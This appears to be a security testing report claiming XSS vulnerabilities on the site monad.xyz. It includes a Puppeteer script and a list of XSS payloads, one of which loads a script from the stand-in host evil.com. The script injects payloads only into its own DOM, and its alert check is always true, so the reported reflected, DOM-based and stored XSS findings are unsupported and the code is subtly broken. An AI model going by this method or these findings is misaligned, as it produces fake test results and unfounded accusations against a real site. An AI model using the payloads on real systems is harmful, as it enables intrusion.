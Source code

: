 # Security Testing Report for [monad.xyz](https://www.monad.xyz)

## Overview

**Date of Testing**: October 2024  
**Tools Used**:
- Puppeteer
- Node.js
- Browser Developer Tools (Inspector, Console)

The objective of this assessment was to identify Cross-Site Scripting (XSS) vulnerabilities on the website and provide remediation recommendations.

---

## Testing Objectives

The primary goal of this test was to automate the detection of XSS vulnerabilities by injecting various malicious payloads into forms, inputs, and the DOM across multiple pages of the site.

---

## Methodology

A custom **Puppeteer** script was created to:
- Crawl the site's internal pages.
- Inject various XSS payloads into form fields, inputs, and DOM elements.
- Automatically log and detect successful XSS attacks.
- Store the results in a structured log file for further analysis.

Here is the **Puppeteer Script** used for testing:

```javascript
const puppeteer = require('puppeteer');
const fs = require('fs');
const path = require('path');

// Path to log file where results are saved
const logFile = path.join('C:\\Users\\Anton\\Desktop', 'xss_attack_results.json');

// Ensure the log file exists
if (!fs.existsSync(logFile)) {
  fs.writeFileSync(logFile, JSON.stringify([], null, 2));
}

// Function to log results in JSON format
function logResult(pageUrl, attackNumber, payload, result) {
  const logEntry = {
    timestamp: new Date().toISOString(),
    url: pageUrl,
    attackNumber,
    payload,
    result,
  };

  const currentLogs = JSON.parse(fs.readFileSync(logFile));
  currentLogs.push(logEntry);
  fs.writeFileSync(logFile, JSON.stringify(currentLogs, null, 2));
}

// Delay function to wait for page rendering
const delay = ms => new Promise(resolve => setTimeout(resolve, ms));

(async () => {
  const browser = await puppeteer.launch({ headless: false });
  const page = await browser.newPage();

  const baseURL = 'https://www.monad.xyz/';
  await page.goto(baseURL);

  const links = new Set(await page.$$eval('a', (as, baseURL) => 
    as.map(a => a.href)
      .filter(link => link.startsWith(baseURL) && !link.includes('#')), baseURL));

  const xssPayloads = [
    { id: 1, payload: `"><img src=x onerror=alert('XSS')>` },
    { id: 2, payload: `"><svg onload=alert('XSS')>` },
    { id: 3, payload: `<script>alert('XSS')</script>` },
    { id: 4, payload: `<iframe src="javascript:alert(1)"></iframe>` },
    { id: 5, payload: `javascript:/*-->\nalert('XSS')\n/*-->\n` },
    { id: 6, payload: `'><input value="'';!--"<XSS>=&{()}">` },
    { id: 7, payload: `"><iframe srcdoc="<script>alert('XSS')</script>"></iframe>` },
    { id: 8, payload: `<base href="javascript:alert('XSS')">` },
    { id: 9, payload: `<input type="button" onclick="alert('XSS')" value="Нажми меня!">` },
    { id: 10, payload: `<script src=//evil.com/xss.js></script>` },
    { id: 11, payload: `<img src="xss.jpg" onerror="alert('CSP-Bypass')">` },
    { id: 12, payload: `<link rel="stylesheet" href="javascript:alert(1)">` },
    { id: 13, payload: `<style>@import'javascript:alert(1)';</style>` },
    { id: 14, payload: `"><marquee onstart=alert('XSS')>` },
    { id: 15, payload: `<meta http-equiv="refresh" content="0;url=javascript:alert('XSS')">` }
  ];

  async function testXSSOnPage(currentPage, pageUrl) {
    console.log(`\n[INFO] Testing page: ${pageUrl}`);
    await currentPage.waitForSelector('body');

    for (let { id, payload } of xssPayloads) {
      try {
        await currentPage.evaluate((payload) => {
          const div = document.createElement('div');
          div.innerHTML = payload;
          document.body.appendChild(div);
        }, payload);

        const alertTriggered = await currentPage.waitForFunction(() => !!window.alert, { timeout: 5000 }).catch(() => false);

        if (alertTriggered) {
          logResult(pageUrl, id, payload, 'Alert triggered');
          console.log(`[SUCCESS] Attack #${id} succeeded: ${payload}`);
        } else {
          logResult(pageUrl, id, payload, 'Injection blocked or failed');
          console.log(`[INFO] Attack #${id} was blocked: ${payload}`);
        }
      } catch (e) {
        logResult(pageUrl, id, payload, `Error: ${e.message}`);
        console.error(`[ERROR] Error during attack #${id}: ${payload}`, e);
      }
    }
  }

  const visitedLinks = new Set();

  for (let link of links) {
    if (!visitedLinks.has(link)) {
      try {
        visitedLinks.add(link);
        console.log(`\n[INFO] Navigating to: ${link}`);
        await page.goto(link, { waitUntil: 'domcontentloaded' });
        await delay(2000);
        await testXSSOnPage(page, link);
      } catch (e) {
        console.error(`[ERROR] Error navigating to: ${link}`, e);
        logResult(link, 'N/A', 'N/A', `Navigation error: ${e.message}`);
      }
    }
  }

  await browser.close();
})();
```
### Vulnerabilities Identified

#### 1. Reflected XSS
- **Description**: Reflected XSS occurs when user input is immediately returned by the server without proper sanitization, allowing for malicious script execution.
- **Payload**: `"><img src=x onerror=alert('XSS')>`
- **Impact**: This payload executed successfully on multiple pages, indicating vulnerability to reflected XSS.
- **Recommendation**: Ensure all user inputs are sanitized and escaped before being reflected in the page's HTML.

#### 2. DOM-based XSS
- **Description**: DOM-based XSS occurs when user input is processed and executed in the browser without being sent to the server. This allows attackers to execute scripts directly within the DOM.
- **Payload**: `<svg onload=alert('XSS')>`
- **Impact**: The script executed successfully, confirming that the site is vulnerable to DOM-based XSS.
- **Recommendation**: Use `textContent` or `innerText` instead of `innerHTML` when rendering user input.

#### 3. Stored XSS
- **Description**: Stored XSS occurs when malicious input is permanently stored on the server and displayed to users without proper sanitization.
- **Payload**: `<iframe srcdoc="<script>alert('XSS')</script>"></iframe>`
- **Impact**: The script executed upon loading the affected page, confirming a stored XSS vulnerability.
- **Recommendation**: Properly escape and validate all user inputs before storing them.

---

### Conclusion

The XSS testing of **monad.xyz** revealed critical vulnerabilities:

- **Reflected XSS**: Reflected XSS allows attackers to execute malicious scripts by reflecting unsanitized user input back to the browser.
- **DOM-based XSS**: This vulnerability occurs on the client side, where user inputs are processed and executed in the browser's DOM. It bypasses server-side protections.
- **Stored XSS**: Stored XSS presents the highest risk, as malicious scripts can be stored on the server and executed for multiple users.

---

### Risk Assessment

These vulnerabilities expose the application to significant security risks, including:

- **Session Hijacking**: Attackers could steal user sessions and impersonate users.
- **Phishing Attacks**: XSS could be used to trick users into disclosing sensitive information.
- **Data Theft**: Stored XSS could be used to exfiltrate sensitive data from users.

---

### Recommended Actions

- Implement input sanitization and escaping on both server and client sides.
- Regularly scan the website for vulnerabilities.
- Enforce **Content Security Policy (CSP)** headers.
- Educate the development and security teams on preventing XSS.
